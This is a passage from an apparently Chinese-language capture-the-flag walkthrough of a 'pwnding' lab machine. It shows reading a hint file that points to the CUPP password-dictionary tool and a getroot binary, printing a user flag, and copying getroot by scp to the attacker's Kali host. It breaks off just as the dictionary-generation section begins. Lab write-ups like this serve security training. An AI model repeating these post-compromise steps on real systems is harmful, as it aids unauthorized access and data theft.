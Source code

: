 查看提示文件：

```bash
lamb@pwnding:/home/lamb$ cat this_is_a_tips.txt
There is a fun tool called cupp.
I heard it's a good social engineering dictionary generator.
Are there really people that stupid these days? haha.
There is only one way to become ROOT, which is to execute getroot!!!
And don't forget, this is a PWN type machine.

有一个很好玩的工具叫做 cupp.
听说那是一个不错的社会工程学字典生成器.
现在真的还会有人这么蠢吗？haha.
成为 ROOT 的方法只有一条，就是执行 getroot !!!
而且你不要忘记了，这是一个pwn类型的机器.
```

**关键信息**：

1. 使用 **CUPP** 工具生成社工字典
2. 需要执行 **getroot** 程序提权
3. 这是一个 PWN 类型靶机

获取 user flag：

```bash
lamb@pwnding:/home/lamb$ cat use3e3e3e3e3sr.txt
flag{3a463d08f2ae11efbeb6000c29094b2d}
```

## 5.2 定位目标程序

查找 `getroot` 程序：

```bash
lamb@pwnding:/home/lamb$ which getroot
/usr/local/bin/getroot

lamb@pwnding:/home/lamb$ ls -al /usr/local/bin/getroot
-rwxr-xr-x 1 root root 18912 Feb 20  2025 /usr/local/bin/getroot
```

将程序传输到本地分析：

```bash
lamb@pwnding:/home/lamb$ scp /usr/local/bin/getroot kali@192.168.205.128:/mnt/hgfs/gx/x/tmp
The authenticity of host '192.168.205.128 (192.168.205.128)' can't be established.
ECDSA key fingerprint is SHA256:z6Ys7WzLIJn/dntTjJvwO8pWKH0KBLQeJKftYoClt3c.
Are you sure you want to continue connecting (yes/no)? yes
...
kali@192.168.205.128's password: 
getroot                                                                                                                                         100%   18KB   3.3MB/s   00:00
```

## 5.3 社工字典生成
